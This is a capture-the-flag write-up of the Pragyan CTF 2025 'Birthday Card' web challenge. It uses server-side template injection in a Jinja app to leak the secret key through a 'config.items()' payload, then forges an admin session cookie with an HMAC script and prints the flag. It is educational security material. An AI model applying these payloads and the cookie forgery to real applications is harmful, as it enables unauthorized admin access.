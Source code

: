 ```yaml
---
title: Birthday Card
date: 2025-02-11 01:29:12 +0800
categories: [Hacking, CTF]
tags: [web, ssti]     # TAG names should always be lowercase
description: Using SSTI to solve Pragyan CTF 2025 "Birthday Card" challenge
---
```


## Introduction

My knowledge about SSTI is little to none, so even though this was an easy challenge I still learned a lot! Kudos to the Pragyan Team for organizing the event.

## First glance

When I went to the target site, `https://birthday.ctf.prgy.in/`, I saw this:

![firstglance](https://github.com/user-attachments/assets/acf0cb40-4c45-4eb8-a82d-82f26f7b0638){: width="400" height="800" }


My first thought is that the problem might be a sanitization issue since the only thing I can do is enter text to generate a card. Thankfully the challenge comes with the source `appy.py`

## Appy.py

### Used of Jinja
I quickly glanced through the code and saw `Jinja` 

```python
            app.jinja_env = env    
            app.jinja_env.globals.update({
                'validator': validator()
            })
            return render_template_string(template)
```

This immediately made me think of Server-side Template Injection (SSTI), so I quickly returned to the target site and tested `{{ '{{' }} 7*7 }}` and indeed SSTI, is possible



![49](https://github.com/user-attachments/assets/2ce9c844-3e72-4827-a1ef-26ccee03c650){: width="600" height="300" }


### Sanitization

```python
class validator:
    def security():
        return _b
    def security1(a, b, c, d):
        if 'validator' in a or 'validator' in b or 'validator' in c or 'validator' in d:
            return False
        elif 'os' in a or 'os' in b or 'os' in c or 'os' in d:
            return False
        else:
            return True
    
    def security2(a, b, c, d):
        if len(a) <= 50 and len(b) <= 50 and len(c) <= 50 and len(d) <= 50:
            return True
        else :
            return False
```

This ensures that the input doesn't contain the string `validator` or `os`, and that it has a maximum length of 50 characters.

To solve this challenge, we don't need to bypass these checks, but they are needed in the harder version of the challenge(Deathday Card). 

For that I highly recommend reading this: [Nullbrunk Write-up for the Deathday Card Challenge](https://nullbrunk.github.io/posts/pragyan-deathdaycard/).

Going back to the challenge...


### /admin/report endpoint

```python
@app.route("/admin/report")
def admin_report():

    # Checks if the `Cookie` header contains a cookie-name called `session`
    # If not it returns a 403
    auth_cookie = request.cookies.get("session")
    if not auth_cookie:
        abort(403, "Unauthorized access.")



    try:
        # This means that the cookie-value would look like --> token.signature
        token, signature = auth_cookie.rsplit(".", 1)

        # This indicates that there is a file called sign.py
        from app.sign import initFn

        # KEY = os.getenv("APP_SECRET_KEY", "default_secret_key")
        signer = initFn(KEY)

        #Creating a valid signature
        sign_token_function = signer.get_signer()
        valid_signature = sign_token_function(token)

        # Checks if the signature from the cookie-value is not the same as the created valid_signature
        # If False then it continues but if True then it returns a 403
        if valid_signature != signature:
            abort(403, f"Invalid token.")

        
        # If the first part of the cookie-value is equal to "admin" then it gives us the flag.
        # If not then it returns a 403
        if token == "admin": # We now know that the token is "admin"
            return "Flag: p_ctf{redacted}"
        else:
            return "Access denied: admin only."
    except Exception as e:
        abort(403, f"Invalid token format: {e}")
```

***Please read the comments for my explanation of what the code is doing***

With this, to get the flag we just need to generate a valid session:

* `Token` = `"admin"`
* `Key` = `unknown`
* `Algorithm` used to generate a valid signature = `unknown`

Since we have an SSTI it was pretty easy to leak the value of `KEY`

By using this payload: `{{ '{{' }}config.items()}}` I was able to leak it :P

![leakedSecretKey](https://github.com/user-attachments/assets/cdae04ed-b59b-4bda-8761-6be842682241){: width="600" height="300" }

So we now have this:

* `Token` = `"admin"`
* `Key` = `"dsbfeif3uwf6bes878hgi"`
* `Algorithm` used to generate a valid signature = `unknown`


For the last part I actually just guessed it xD I figured I'd try to use HMAC-SHA-256 since it's a common choice to generate a signature.

## gen.py

With all of that, I created this script.

```python
import hmac
import hashlib

# Secret key
KEY = b"dsbfeif3uwf6bes878hgi"

# Token
token = "admin"

signature = hmac.new(KEY, token.encode(), hashlib.sha256).hexdigest()
auth_cookie = f"{token}.{signature}"

print(auth_cookie)
```

Running `gen.py` returns -> `admin.dc92ab47061ce7a0922596817589737de0b8dde08e7fbe6c7772ad5f87ea9f0b`

## Flag

To check if that is a valid `cookie-value`, I used it and made a request to `/admin/report` and...


![flag](https://github.com/user-attachments/assets/9d34926c-ae75-4659-8da5-9e30f86fca80)

Finally, we got the `Flag: p_ctf{S3rVer_STI_G0es_hArd}`


That's all for this write-up! Thanks for reading, and have a nice day :D

-***Datsuraku147***